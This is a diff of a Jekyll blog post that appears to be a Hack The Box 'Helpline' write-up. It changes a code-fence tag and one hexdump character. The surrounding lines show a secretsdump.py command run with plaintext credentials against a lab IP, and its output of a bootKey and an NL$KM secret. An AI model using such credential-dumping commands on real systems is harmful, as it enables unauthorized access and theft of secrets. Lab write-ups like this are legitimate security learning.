

Before and after one commit to guglia001/guglia001.github.io, a Jekyll site: the page built from _posts/2021-06-11-helpline-htb-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 7215 px. Shown: the whole window at 92% size, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; emoji names are drawn with the system emoji font.

Commit message:
primer lanzamiento 2

````diff
--- a/_posts/2021-06-11-helpline-htb-writeup.md
+++ b/_posts/2021-06-11-helpline-htb-writeup.md
@@ -132,7 +132,7 @@
 ```bash
 secretsdump.py mario:mario123@10.10.10.132
 ```
-```ru
+```bash
 [*] Service RemoteRegistry is in stopped state
 [*] Starting service RemoteRegistry
 [*] Target system bootKey: 0xf684313986dcdab719c2950661809893
@@ -157,7 +157,7 @@
 [*] NL$KM
 0000   E3 05 BC AB 6F AC 32 0E  38 53 9A 46 3E A8 2B 90   ....o.2.8S.F>.+.
 0010   3E 1E A1 C3 94 65 8D 5D  5A 2A 6D F5 FC C4 93 49   >....e.]Z*m....I
-0020   CE 68 24 DF 38 F0 A6 3D  E1 60 73 E2 B1 CE 1A CC   .h$.8..=.`s.....
+0020   CE 68 24 DF 38 F0 A6 3D  E1 60 73 E2 B1 CE 1A CC   .h$.8..=.s.....
 0030   43 DB 81 EE C8 34 DE 2E  98 4E 5C D3 35 3F 4A D4   C....4...N\.5?J.
 NL$KM:e305bcab6fac320e38539a463ea82b903e1ea1c394658d5d5a2a6df5fcc49349ce6824df38f0a63de16073e2b1ce1acc43db81eec834de2e984e5cd3353f4ad4
 [*] Cleaning up...
````
